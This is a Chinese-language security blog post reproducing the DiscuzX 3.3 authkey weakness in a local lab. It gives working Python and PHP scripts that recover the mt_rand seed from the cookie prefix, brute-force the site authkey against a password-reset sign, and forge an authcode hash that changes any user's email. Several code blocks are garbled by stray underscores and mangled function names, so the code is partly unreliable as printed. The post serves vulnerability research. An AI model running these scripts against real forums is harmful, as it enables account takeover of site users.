

## 前言


在看了一个师傅写的 _`DiscuzX authkey安全性漏洞分析`_文章后，对其中的某些点还是有些模糊，于是决定下载DiscuzX3.3将authkey可爆破漏洞复现下，尽可能的说清楚复现的每一步及其利用的工具和脚本。


## 漏洞详情


> 2017年8月1日，Discuz!发布了X3.4版本，此次更新中修复了authkey生成算法的安全性漏洞，通过authkey安全性漏洞，我们可以获得authkey。系统中逻辑大量使用authkey以及authcode算法，通过该漏洞可导致一系列安全问题：邮箱校验的hash参数被破解，导致任意用户绑定邮箱可被修改等…


漏洞影响版本：

- Discuz_X3.3__SCGBK_
- Discuz_X3.3__SCUTF8_
- Discuz_X3.3__TCBIG5_
- Discuz_X3.3__TCUTF8_
- Discuz_X3.2__SCGBK_
- Discuz_X3.2__SCUTF8_
- Discuz_X3.2__TCBIG5_
- Discuz_X3.2__TCUTF8_
- Discuz_X2.5__SCGBK_
- Discuz_X2.5__SCUTF8_
- Discuz_X2.5__TCBIG5_
- Discuz_X2.5__TCUTF8_

## 漏洞分析


### authkey的产生


在`install/index.php`中有关于authkey的产生方法：


```php
$uid = DZUCFULL ? 1 : $adminuser['uid'];
$authkey = substr(md5($_SERVER['SERVER_ADDR'].$_SERVER['HTTP_USER_AGENT'].$dbhost.$dbuser.$dbpw.$dbname.
                $username.$password.$pconnect.substr($timestamp, 0, 6)), 8, 6).random(10);
$_config['db'][1]['dbhost'] = $dbhost;
$_config['db'][1]['dbname'] = $dbname;
$_config['db'][1]['dbpw'] = $dbpw;
$_config['db'][1]['dbuser'] = $dbuser;
$_config['db'][1]['tablepre'] = $tablepre;
$_config['admincp']['founder'] = (string)$uid;
$_config['security']['authkey'] = $authkey;
$_config['cookie']['cookiepre'] = random(4).'_';
$_config['memory']['prefix'] = random(6).'_';

```


authkey是由多个服务器变量，数据库信息md5的前6位加`random`函数生成的随机10位数，前6位数字我们无从得知，但是问题就出现在了`random`函数上，跟进`random`函数，
在`/ucserver/install/func.inc.php`中：


```php
function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt__srand((double)microtime()  1000000);
	for(_$i = 0; $i < $length; $i++) {
		$hash .= $_chars[mtrand(0, $max)];
	}
	return $hash;
}_

```


可以看到当PHP版本>=4.2时，_`mtrand`_的随机数种子是固定的。现在的思路是计算随机数种子，使用随机数种子生成 `authkey`，找到可以验证`authkey`是否正确的接口，爆破得出`authkey`。很幸运的是Discuz有很多地方使用到了`authkey`来生成一些信息，利用这点就可以验证`authkey`的正确性，这个我们后面会提到。


### _关于mtrand_


> _mtrand() 函数使用 Mersenne Twister 算法生成随机整数。  
> 该函数是产生随机值的更好选择，返回结果的速度是 rand() 函数的 4 倍。  
> 如果您想要一个介于 10 和 100 之间（包括 10 和 100）的随机整数，请使用 mtrand (10,100)。_


语法：


```php
_mtrand();
or
mtrand(min,max);_

```


ok，了解了_`mtrand`_函数的用法后，我们使用_`mtrand`_来生成10个1-100之间的随机数：


代码如下：


```php
_<?php
mtsrand(12345);
for(_$i=0;$_i<10;$i++){
echo (mtrand(1,100));
echo ("\n");
}_

```


结果：


在运行一次：


可以看到两次运行产生的随机数竟然是一样的，我们把这个称为伪“随机数”，正是由于_`mtrand`_函数的这种特性，我们才可以进行随机数的预测，关于"伪随机数"的详细介绍可以看看下面这两篇文章：

- [PHP中的随机数安全问题](https://zhuanlan.zhihu.com/p/62555467)
- [_PHP mtrand()随机数安全_](https://xz.aliyun.com/t/31)

### 爆破随机数种子


ok，了解了_`mtrand`_函数后，需要做的就是爆破出随机数种子，在`/install/index.php`中可看到cookie的前缀的前四位也是由`random`函数生成的，而cookie我们是可以看到的：


```php
$_config['cookie']['cookiepre'] = random(4).'_';
$
```


cookie前缀为：CHFV


那我们就可以使用字符集加上4位已知字符，爆破随机数种子,爆破随机数种子的工具已经有人写出，地址为：[https://www.openwall.com/php_mt_seed/](https://www.openwall.com/php_mt_seed/)，关于此工具的使用方法可自行查阅。


首先使用脚本生成用于_`phpmtseed`_工具的参数：


```python
_# coding=utf-8
wlen = 10
result = ""
strlist = "ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz"
length = len(strlist)
for i in xrange(wlen):
	result+="0 "
	result+=str(length-1)
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
sstr = "CHFV"
for i in sstr:
	result+=str(strlist.index(i))
	result+=" "
	result+=str(strlist.index(i))
	result+=" "
	result+="0 "
	result+=str(length-1)
	result+=" "
print result_

```


结果为：


```text
0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 0 61 2 2 0 61 7 7 0 61 5 5 0 61 21 21 0 61

```


使用php_mt_seed工具爆破随机数种子：


由于当前使用的php版本为5.6，符合结果的一共有293个。


### 爆破authkey


获得了随机数种子后，利用随机数种子使用`random`函数生成随机字符串用于后面的authkey爆破，生成随机字符串的脚本如下：


```php
<?php
function random($length) {
	$hash = '';
	$chars = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789abcdefghijklmnopqrstuvwxyz';
	$max = strlen($chars) - 1;
	PHP_VERSION < '4.2.0' && mt__srand((double)microtime()  1000000);
	for(_$i = 0; $i < $length; $i++) {
		$hash .= $_chars[mtrand(0, $max)];
	}
	return $hash;
}
$fp = fopen('result1.txt', 'r');
$fp2 = fopen('result2.txt', 'a');
while(!feof($fp)){_
	$b = fgets($_fp, 4096);
	if(pregmatch("/([=\s].[=\s])(\d+)[\s]/",_ $b, $matach)){
		$m = $_matach[2];
	}else{
		continue;
	}
	// vardump($matach);
	// vardump($m);
	mtsrand($m);
	fwrite($fp2, random(10)."\n");
}
fclose($fp);
fclose($fp2);_

```


如何验证authkey的正确性呢？我们注意到在找回密码时，系统给用户发送的邮件中的链接如下：


把目光转移到代码中，寻找sign值的生成方式，在_`/source/module/member/memberlostpassw.php`_有如下代码：


跟进到_`makegetpwssign`_函数中：


继续跟进到`dsign`函数中：


发现`dsign`配合使用了authkey来生成sign值，那么我们接下来要做的就是模拟这个过程来获取找回密码处的`uid`,`id`,`sign`值来爆破authkey,下面是爆破脚本：


```python
_#coding: utf-8
import itertools
import hashlib
import time
def dsign(authkey):
	url = "http://127.0.0.1/dz3.3/"
	idstring = "xZhQzV"
	uid = 2
	uurl = "{}member.php?mod=getpasswd&uid={}&id={}".format(url, uid, idstring)
	urlmd5 = hashlib.md5(uurl+authkey)
	return urlmd5.hexdigest()[:16]
def main():
	sign = "6e2b1a0bb563da89"
	strlist = "0123456789abcdef"
	with open('result2.txt') as f:
		ranlist = [s[:-1] for s in f]
	slist = sorted(set(ranlist), key=ranlist.index)
	r__list = itertools.product(str__list, repeat=6)
	print "[!] start running...."
	stime = time.time()
	for j in rlist:
		for s in slist:
			prefix = "".join(j)
			authkey = prefix + s
			# print dsign(authkey)
			if dsign(authkey) == sign:
				print "[] found used time: " + str(time.time() - stime)
				return "[] authkey found: " + authkey
print main()_

```


用上述脚本跑了大概2个小时，跑出了authkey。（脚本是单线程的，跑的有点慢，追求速度的同学可以将其改为多线程）


在和配置文件中的authkey对比一下，可以看到是一样的。


至此，authkey已经被我们爆破出来了，有了authkey以后我们可以用来重置任意用户的邮箱地址。


## 漏洞利用


当我们需要重置用户邮箱时，系统会发一份下面这样的邮件：


可以看到重置链接中最重要的是hash的参数值，有了这个hash值就可以重置邮件地址了。


回到代码_`/source/include/misc/miscemailcheck.php`_中，这个文件是验证重置邮件链接中hash值的：


贴一段主要的代码：


```php
<?php

/
       _[Discuz!] (C)2001-2099 Comsenz Inc.
       This is NOT a freeware, use is subject to license terms_
 
       $Id: misc_emailcheck.php 33688 2013-08-02 03:00:15Z nemohou $
 _/

if(!defined('INDISCUZ')) {
	exit('Access Denied');
}

$uid = 0;
$email = '';_
$_GET['hash'] = empty($_GET['hash']) ? '' : $__GET['hash'];
if($GET['hash']) {
	list(_$uid, $email, $time) = explode("\t", authcode($_GET['hash'], 'DECODE', md5(substr(md5($_G['config']['security']['authkey']), 0, 16))));
	$uid = intval($uid);
}

if($uid && isemail($email) && $time > TIMESTAMP - 86400) {
	$member = getuserbyuid($uid);
	$setarr = array('email'=>$_email, 'emailstatus'=>'1');
	if($G['member']['freeze'] == 2) {
		$setarr['freeze'] = 0;
	}
	loaducenter();_
	$ucresult = uc_user_edit(addslashes($member['username']), '', '', $email, 1);
	if($ucresult == -8) {
		showmessage('email_check__accountinvalid', '', array(), array('return' => true));
	} elseif($ucresult == -4) {
		showmessage('profile__email_illegal', '', array(), array('return' => true));
	} elseif($ucresult == -5) {
		showmessage('profile_email__domainillegal', '', array(), array('return' => true));
	} elseif($ucresult == -6) {
		showmessage('profile__email_duplicate', '', array(), array('return' => true));
	}
	if($_G['setting']['regverify'] == 1 && $member['groupid'] == 8) {
		$membergroup = C::t('common_usergroup')->fetch_by_credits($member['credits']);
		$setarr['groupid'] = $_membergroup['groupid'];
	}
	updatecreditbyaction('realemail', $uid);
	C::t('commonmember')->update(_$uid, $setarr);
	C::t('common_member_validate')->delete($uid);
	dsetcookie('newemail', "", -1);

	showmessage('email_check_sucess', 'home.php?mod=spacecp&ac=profile&op=password', array('email' => $email));
} else {
	showmessage('email_check_error', 'index.php');
}

?>


```


当hash传入的时候，服务端会调用authcode函数解码获得用户的uid，要修改成的email，时间戳。然后经过一次判断就进入逻辑修改email，这里没有额外的判断。uid是从1开始依次增加的，也就是说我们可以重置任意用户的email地址。


跟进到`authcode`函数，并使用此函数获取hash值.


```php
function authcode($string, $operation = 'DECODE', $key = '', $_expiry = 0) {

	$ckeylength = 4;_

	$key = md5($_key ? $key : UCKEY);_
	$keya = md5(substr($key, 0, 16));
	$keyb = md5(substr($key, 16, 16));
	$keyc = $_ckeylength ? (_$operation == 'DECODE' ? substr($string, 0, $ckey_length): substr(md5(microtime()), -$_ckeylength)) : '';_

	$cryptkey = $keya.md5($keya.$keyc);
	$key_length = strlen($cryptkey);

	$string = $_operation == 'DECODE' ? base64decode(substr(_$string, $_ckeylength)) : sprintf('%010d',_ $expiry ? $expiry + time() : 0).substr(md5($string.$keyb), 0, 16).$string;
	$string_length = strlen($string);

	$result = '';
	$box = range(0, 255);

	$rndkey = array();
	for($i = 0; $i <= 255; $i++) {
		$rndkey[$i] = ord($cryptkey[$_i % $keylength]);
	}

	for(_$j = $i = 0; $i < 256; $i++) {
		$j = ($j + $box[$i] + $rndkey[$i]) % 256;
		$tmp = $box[$i];
		$box[$i] = $box[$j];
		$box[$j] = $tmp;
	}

	for($a = $j = $i = 0; $i < $string_length; $i++) {
		$a = ($a + 1) % 256;
		$j = ($j + $box[$a]) % 256;
		$tmp = $box[$a];
		$box[$a] = $box[$j];
		$box[$j] = $tmp;
		$result .= chr(ord($string[$i]) ^ ($box[($box[$a] + $box[$j]) % 256]));
	}

	if($operation == 'DECODE') {
		if((substr($result, 0, 10) == 0 || substr($result, 0, 10) - time() > 0) && substr($result, 10, 16) == substr(md5(substr($result, 26).$keyb), 0, 16)) {
			return substr($result, 26);
		} else {
			return '';
		}
	} else {
		return $keyc.str_replace('=', '', base64_encode($result));
	}

}

echo authcode("3\ttest@test.com\t1593556905", 'ENCODE', md5(substr(md5("c0dc85pjkmNEfXuw"), 0, 16)));

```





直接用这个hash就可重置uid为3的用户的邮件地址：


## 最后


获取authkey之后对前台用户影响巨大，例如我们仅靠authkey就可以修改所有用户的邮件地址，另外前台cookie，多个点的验证中都涉及到了authkey。至于如何依靠authkey来达到更进一步的利用，各位可继续进行探索。另外强烈推荐看这篇关于Discuz漏洞的总结文章[这是一篇“不一样”的真实渗透测试案例分析文章](https://paper.seebug.org/1144/)


文中所用到的代码在：[github](https://github.com/handbye/DiscuzX3.3-authkey-blasting),请自取。


## 参考

- [_DiscuzX authkey安全性漏洞分析_](https://lorexxar.cn/2017/08/31/dz-authkey/)
- [Discuz X3.3补丁安全分析](https://www.anquanke.com/post/id/86679)
- [这是一篇“不一样”的真实渗透测试案例分析文章](https://paper.seebug.org/1144/)
